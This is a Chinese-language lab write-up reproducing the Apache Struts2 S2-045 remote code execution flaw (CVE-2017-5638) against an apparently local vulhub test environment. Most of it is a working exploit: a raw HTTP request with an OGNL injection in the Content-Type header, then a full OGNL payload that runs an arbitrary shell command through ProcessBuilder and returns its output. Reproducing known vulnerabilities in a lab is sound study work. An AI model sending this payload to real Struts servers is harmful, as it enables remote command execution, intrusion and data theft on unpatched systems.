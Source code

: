 # Struts2 S2-045远程代码执行漏洞（CVE-2017-5638）

## 1、漏洞复现

启动环境之后访问`192.168.232.131:5019`

可以看到一个上传页面

![image-20231118160222122](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118160222122.png)

使用burp抓包之后发送如下数据包：

```http
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data
```

![image-20231118160349841](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118160349841.png)

可以看到已经成功执行233*233，漏洞复现成功。

## 2、尝试利用漏洞执行系统命令，读取当前目录下的pom.xml内容

发送如下数据包（更改了Content-Type）：

```
"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat pom.xml').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```

![image-20231118162334181](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231118162334181.png)

可以看到已经读取到pom.xml文件